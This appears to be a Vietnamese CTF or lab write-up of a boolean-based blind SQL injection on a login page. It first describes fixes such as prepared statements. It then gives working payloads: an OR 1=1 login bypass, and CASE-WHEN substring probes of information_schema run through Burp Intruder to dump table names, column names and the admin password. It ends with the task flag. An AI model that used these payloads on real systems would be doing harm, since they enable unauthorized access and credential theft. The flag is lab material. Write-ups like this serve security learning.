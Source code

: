 # Link demo : 
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.

Ban đầu em vào giao diện sẽ như thế này ạ
cheatsheet 
![Alt text](./imagesBooleanBase/image-3.png)


![Alt text](./imagesBooleanBase/image.png)
- Thường thì login nên là lỗi sẽ kiểu loanh quanh sqli, jwt, authentication nên em dùng sqli liền:v

Ban đầu em test với payload "administrator'+OR+1=1--+-&password=aaa&login="
+ Em nhận được chuỗi chào mừng với tên administrator, thường thì như này là bypass ổn rồi nhưng mà em sẽ tìm cách để biết được password của admin để quang minh chính đại vào:<

- cái này em quên liệt kê đó là nếu mà đăng nhập sai sẽ nhận được chuỗi như này
![Alt text](./imagesBooleanBase/image-1.png)

- sau đó em dùng câu lệnh điều kiện trong mysql "' OR (case when 1=1 then 1 else 0 end)=1+--+-"
+ Câu lên này sẽ checking NẾU 1=1 thì sẽ trả ra 1 còn nếu sai trả ra 0 và đương nhiên là 1=1 rồi nên sẽ luôn trả ra 1 và 1=1 nên OR true sẽ luôn đúng và ta sẽ nhận được kết quả
![Alt text](./imagesBooleanBase/image-2.png)
+ Này là một dạng Blind SQL rồi nên em sẽ làm luôn ạ:v
+ Flow: xác định tên bảng-> tên cột-> dumb bằng brute force @@
Bởi vì là mình dumb từng kí tự nên cũng sẽ phải check trước độ dài của dữ liệu

- Tìm hiểu đôi chút là trong infomation_schema.tables có
![Alt text](./imagesBooleanBase/image-11.png)
- Đoạn engine='InnoDb';
- Đầu tiên em sẽ tìm độ dài của tên bảng
payload : "' OR (case when (select length(table_name) from information_schema.tables where engine='InnoDB' limit 0,1)>0 then 1 else 0 end)=1 -- -"

- Và kết quả luôn đúng vì em tên bảng luôn lớn hơn 0 và em được kết quả
![Alt text](./imagesBooleanBase/image-4.png)

- Sau đó em dùng burp intruder để tìm length table_name
![Alt text](./imagesBooleanBase/image-8.png)
![Alt text](./imagesBooleanBase/image-6.png)
add tiếng việt bị lỗi nên em chỉ grep Chào
![Alt text](./imagesBooleanBase/image-10.png)

- Kết quả có thể thấy là khi length table > 5 thì em không còn nhận được sự chào mừng nữa
- Nên độ dài của tên bảng sẽ là 5

+ Sau đó em brute-force tên bảng với payload "' OR (case when (select substring((select table_name from information_schema.tables where engine='Innodb' limit 0,1),§1§,1)='§0§' then 1 else 0 end)=1 -- - "
- EM được tên bảng là users

+ Em tiếp tục sử dụng 
' OR (case when (select length(column_name) from information_schema.colums where table_name='users' limit 2,1)>0 then 1 else 0 end)>1 -- -
- Em nhận được kết quả
![Alt text](./imagesBooleanBase/image-12.png)
- Em tiếp tục sử dụng burp intruder và tìm được độ dài cột thứ nhất là 2, cột thứ 2 là 9, cột thứ 3 là 8 cột cuối cùng là 4

+ bây giờ em dumb giá trị bằng intruder với payload : "a'+OR+(case+when+substring((select+column_name+from+information_schema.columns+where+table_name%3d'users'+limit+0,1),§1§,1)%3d'§0§'+then+1+else+0+end)%3d1+--+-"
![Alt text](./imagesBooleanBase/image-13.png)

- Payload 1 là vị trí của kí tự: là number vì cột đầu có 2 kí tự nên ta sẽ set từ 1->2
- Payload 2 là giá trị của kí tự mình sẽ brute force ạ nếu muốn thêm kí tự có thể thêm vào ô 

![Alt text](./imagesBooleanBase/image-14.png)
![Alt text](./imagesBooleanBase/image-17.png)
Grep kết quả:
![Alt text](./imagesBooleanBase/image-16.png)


Em nhận được kết quả là :
![Alt text](./imagesBooleanBase/image-18.png)
![Alt text](./imagesBooleanBase/image-19.png)
![Alt text](./imagesBooleanBase/image-20.png)

- Vậy là em đã có tên của cột đó là id, username, password và tương tự cột cuối là role

- Bây giờ em bắt đầu dumb dữ liệu tương tự như cách để dumb tên của table
em dùng payload :"a'+OR+(case+when+substring((select+password+from+users+limit+0,1),§1§,1)='§0§'+then+1 else+0+end)=1+--+-"

- Em dùng payload1 là number payload 2 là brute force dùng clustẻ bomb em nhận được password là:
hihi123
Tương tự như database của em
![Alt text](./imagesBooleanBase/image-21.png)
Nên em đã thành công "mượn" được mật khẩu administrator và em đã đòi được tiền chuộc sau khi đăng nhập là
Bạn đã hack tôi bây giờ là admin :( đây là tiền chuộc KCSC_TASK{____b4N_D^n9_h4ck_t@i_h3t_1ieN_R0i___}